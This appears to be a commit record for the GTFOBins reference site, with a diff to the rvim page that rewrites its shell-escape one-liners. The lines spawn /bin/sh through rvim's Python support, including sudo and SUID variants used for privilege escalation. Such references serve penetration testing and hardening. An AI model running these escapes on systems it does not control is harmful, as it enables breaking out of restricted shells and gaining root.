

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/rvim.md, in a window 1280 px wide. Shown: the whole page at 83% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Fix broken shells in vi
Related to #39.

```diff
--- a/_gtfobins/rvim.md
+++ b/_gtfobins/rvim.md
@@ -2,7 +2,7 @@
 functions:
   shell:
     - description: This requires that rvim is compiled with Python support.
-      code: rvim -c ':py import os;os.system("sh")'
+      code: rvim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
   file-write:
     - description: This requires that rvim is compiled with Python support.
       code: |
@@ -14,8 +14,8 @@ functions:
     - code: rvim file_to_read
   suid:
     - description: This requires that rvim is compiled with Python support.
-      code: ./rvim -c ':py import os;os.system("sh")'
+      code: ./rvim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
   sudo:
     - description: This requires that rvim is compiled with Python support.
-      code: sudo rvim -c ':py import os;os.system("sh")'
+      code: sudo rvim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
 ---
```
Also changed, not shown: _gtfobins/vi.md (+2 -2 lines), _gtfobins/vim.md (+2 -2 lines).
